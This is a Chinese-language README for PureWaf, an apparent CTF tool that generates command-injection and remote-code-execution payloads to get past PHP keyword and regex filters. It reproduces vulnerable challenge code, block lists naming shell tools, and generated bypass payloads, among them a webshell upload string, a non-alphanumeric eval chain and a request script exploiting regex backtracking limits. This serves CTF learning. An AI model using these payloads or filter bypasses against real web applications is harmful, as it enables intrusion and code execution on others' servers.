

# PureWaf

 [](https://pypi.org/project/PureWaf/)    [](https://codecov.io/gh/PureStream108/PureWaf)



该项目仅用于教育和学习环节（比如说CTF），不得应用于其他任何恶意目的。

如果该项目出现任何错误或您有任何建议，欢迎在 `issues` 中提出。

一些参数的使用看这里：[Parameters](docs/parameters.md)

关于 Agent 看这里：[Use With LLM](docs/LLM.md)

使用 Agent 示例看这里：[Example](docs/Example.md)

关于版本更新看这里：[CHANGELOG](./docs/AboutChange.md)

## SKILL

关于SKILL，如果你本地已经有了此工具，可以下载此 SKILL.md 让 LLM 调用 PureWaf，不需要单独开启 PureWaf 的 Agent 功能

## Foreword

CTF中，你是否会因为被像这样：

```php
if(!preg_match('/wget|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\\*|sort|zip|mod|sl|find|sed|cp|mv|ty|php|tee|txt|grep|base|fd|df|\\\\|more|cc|tac|less|head|\.|\{|\}|uniq|copy|%|file|xxd|date|\[|\]|flag|bash|env|!|\?|ls|\'|\"|id/i',$cmd)) {
	echo "你传的参数似乎挺正经的,放你过去吧<br>";
	system($cmd);
} else {
	echo "nonono,hacker!!!";
}
```

或者是这样：

```php
<?php

highlight_file(__FILE__);

$comm1 = $_GET['comm1'];
$comm2 = $_GET['comm2'];


if(preg_match("/\'|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $comm1))
    $comm1 = "";
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|\||tail|more|cat|string|bin|less||tac|sh|flag|find|grep|echo|w/is", $comm2))
    $comm2 = "";

$flag = "#flag in /flag";

$comm1 = '"' . $comm1 . '"';
$comm2 = '"' . $comm2 . '"';

$cmd = "file $comm1 $comm2";
system($cmd);
?>

```

的恶心人的WAF所困扰？还在一遍一遍看哪个命令没被Waf？

那么PureWaf就是为了一把梭掉这种Waf而诞生。

## Quick Start

```bash
pip install PureWaf

from PureWaf import purewaf

#purewaf(webui=True)
```

## Examples

**第十届”楚慧杯“**

```php
$forbidden = array('system', 'exec', 'passthru', 'shell_exec', 'popen', 'proc_open');  
foreach ($forbidden as $bad) {  
	if (stripos($spell, $bad) !== false) {  
		die("⚠️ 检测到禁忌的黑魔法!n芙芙: "宝箱怪拒绝了这个咒语..."n</pre></div></body></html>");  
	}  
}  

if (stripos($spell, 'flag') !== false) {  
	die("⚠️ 宝箱怪的魔法屏障启动了!它不允许直接念出 'flag' 这个词!\n</pre></div></body></html>");  
}  

$blocked_commands = array('cat', 'tac', 'nl', 'more', 'less', 'head', 'tail', 'sort', 'uniq', 'strings', 'od', 'xxd', 'hexdump', 'grep', 'awk', 'sed', 'cut', 'rev', 'base64', 'env');  
foreach ($blocked_commands as $cmd) {  
	if (stripos($spell, $cmd) !== false) {  
	die("⚠️ 宝箱怪识破了你的咒语!命令 '$cmd' 已被封印!\n芙芙: \"这些常用的命令都被屏蔽了...得想想其他办法...\"\n</pre></div></body></html>");  
	}  
}  
```

新鲜出炉这一块，可以提取出来 Waf 就是：

```py
from PureWaf import purewaf

w = purewaf(
    waf_words="system|exec|passthru|shell_exec|popen|proc_open|flag|cat|tac|nl|more|less|head|tail|sort|uniq|strings|od|xxd|hexdump|grep|awk|sed|cut|rev|base64|env"
)

print(w)

#[+] Shortest Root Payload : ls /
#[+] Shortest Flag Payload : vi /f???
```

这个过滤的不算严格就是了

**CISCN 2024 simple_php**

[ctf.show](https://ctf.show/challenges#simple_php-4329)

```PHP
ini_set('open_basedir', '/var/www/html/');
error_reporting(0);

if(isset($_POST['cmd'])){
    $cmd = escapeshellcmd($_POST['cmd']); 
     if (!preg_match('/ls|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\*|sort|ch|zip|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|zip|gcc|uniq|vi|vim|file|xxd|base64|date|bash|env|\?|wget|\'|\"|id|whoami/i', $cmd)) {
         system($cmd);
}
}


show_source(__FILE__);
?>
```

直接提取题中Waf：

```
/ls|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\*|sort|ch|zip|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|zip|gcc|uniq|vi|vim|file|xxd|base64|date|bash|env|\?|wget|\'|\"|id|whoami/
```

然后直接输入到PureWaf中：（这里的需要增加 `r`，不然 `\*` 会报 SyntaxWarning ）

```python
import PureWaf

w = PureWaf.purewaf( waf_regex=r"/ls|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\*|sort|ch|zip|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|zip|gcc|uniq|vi|vim|file|xxd|base64|date|bash|env|\?|wget|\'|\"|id|whoami/i",
flagfile="/etc/passwd"
)

print(w)


# [+] Shortest Root Payload : diff / /tmp
# [+] Shortest Flag Payload : rev /etc/passwd
```

**[红明谷CTF 2021]write_shell**

[BUUCTF在线评测](https://buuoj.cn/login?next=%2Fchallenges%3F#[红明谷CTF 2021]write_shell)

```PHP
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

依旧是：

```python
import PureWaf

w = PureWaf.purewaf(
    waf_regex=r"/'| |_|php|;|~|\\^|\\+|eval|{|}/i",
    upload=True
)

print(w)
```

但是这次增加一个 upload 的参数，用于适配上传环境的 payload

结果如下：

```
[*] Generating payloads for Root Directory...
[========================] 960/960 passed:336

[*] Generating payloads for Flag File...
[========================] 5067/5067 passed:812

----------------------------------------
[+] Shortest Root Payload : <?=`ls</`?>
[+] Shortest Flag Payload : <?=`nl</flag`?>
----------------------------------------
```

**MoeCTF2025 这是…Webshell？**

```PHP
<?php
highlight_file(__FILE__);
if(isset($_GET['shell'])) {
    $shell = $_GET['shell'];
    if(!preg_match('/[A-Za-z0-9]/is', $_GET['shell'])) {
        eval($shell);
    } else {
        echo "Hacker!";
    }
}
?>
```

直接将 Waf 输入

```
----------------------------------------
[+] Shortest Root Payload : N/A
[+] Shortest Flag Payload : $__=('>'>'<')+('>'>'<');$_=$__/$__;$____='';$___=眰;$____.=~($___[$_]);$___=和;$____.=~($___[$__]);$___=和;$____.=~($___[$__]);$___=的;$____.=~($___[$_]);$___=半;$____.=~($___[$_]);$___=始;$____.=~($___[$__]);$_____='_';$___=俯;$_____.=~($___[$__]);$___=眰;$_____.=~($___[$__]);$___=次;$_____.=~($___[$_]);$___=站;$_____.=~($___[$_]);$_=$$_____;$____($_[$__]);
----------------------------------------

TIPS: POST: 2=system('id');
```

会生成一个 TIPS，以提示 payload 后续该如何使用（不过记得自增类型的需要URL编码后使用）

**middlerce | NSSCTF**

[[NISACTF 2022\]middlerce | NSSCTF](https://www.nssctf.cn/problem/1897)

```PHP
<?php
include "check.php";
if (isset($_REQUEST['letter'])){
    $txw4ever = $_REQUEST['letter'];
    if (preg_match('/^.*([\w]|\^|\*|\(|\~|\`|\?|\/| |\||\&|!|\<|\>|\{|\x09|\x0a|\[).*$/m',$txw4ever)){
        die("再加把油喔");
    }
    else{
        $command = json_decode($txw4ever,true)['cmd'];
        checkdata($command);
        @eval($command);
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

直接将 Waf 套入 PureWaf：

```python
import PureWaf

w = PureWaf.purewaf(
    waf_regex=r"/^.*([\w]|\^|\*|\(|\~|\`|\?|\/| |\||\&|!|\<|\>|\{|\x09|\x0a|\[).*$/m",
)

print(w)
```

虽然最后输出N/A，但不同的是，会生成 Example 以提示可以利用的方法：

```
----------------------------------------
[+] Shortest Root Payload : N/A
[+] Shortest Flag Payload : N/A
----------------------------------------

Example:

import requests

url = ""
payload = '{"cmd":"?><?=`sort /f*`?>","+":"' + "-" * 1000000 + '"}'
res = requests.post(url=url, data={"letter": payload})
print(res.text)

N/A
```

## Limitations

- ~~暂时无法实现自定义命令~~（仅适用于RCE场景）
- ~~暂时没有对远程目标的自动发包和回显验证~~
- 暂时没有白名单选项
- ~~暂时只适配 eval($a) 情形~~
- ~~暂时没有多文件的分析能力，auto目前对于默认文件为 /flag 会好用一点~~

（我们将在未来计划消除这些限制，并同步更新至README）

## Contributing

欢迎在 issues 中提供 PureWaf 无法解出的题目并附带对应的wp！

供题者的 ID 将会出现在下一版本的 release 中！

## Thanks & References

[无字母数字webshell之提高篇 | 离别歌](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

[RCE（远程代码执行漏洞）函数&命令&绕过总结 - 星海河 - 博客园](https://www.cnblogs.com/xinghaihe/p/18723674)

[以一道CTF题目看无参数RCE - 泠涯 - 博客园](https://www.cnblogs.com/hello-there/p/12880566.html)

[CTF中的RCE绕过-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2393421)

[CTFshow-RCE极限大挑战 | 晴川's Blog🌈](https://blog.q1ngchuan.top/2023/10/01/CTFshow-RCE极限大挑战/index.html)

[CTF中WEB题——RCE - tomyyyyy - 博客园](https://www.cnblogs.com/tomyyyyy/p/13905357.html)

[exploit-bypass-php-escapeshellarg-escapeshellcmd](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)

[PHP escapeshellcmd/escapeshellarg security advisory](https://gist.github.com/Zenexer/40d02da5e07f151adeaeeaa11af9ab36)

[Exploit PHP Remotely - WAF Rule & Filter Bypass](https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/)

[异或、取反、或绕过 - SCU-CTF](https://wiki.scuctf.com/ctfwiki/web/3.rce/异或取反或绕过/)

## Star History

[](https://www.star-history.com/#PureStream108/PureWaf&type=date&legend=top-left)
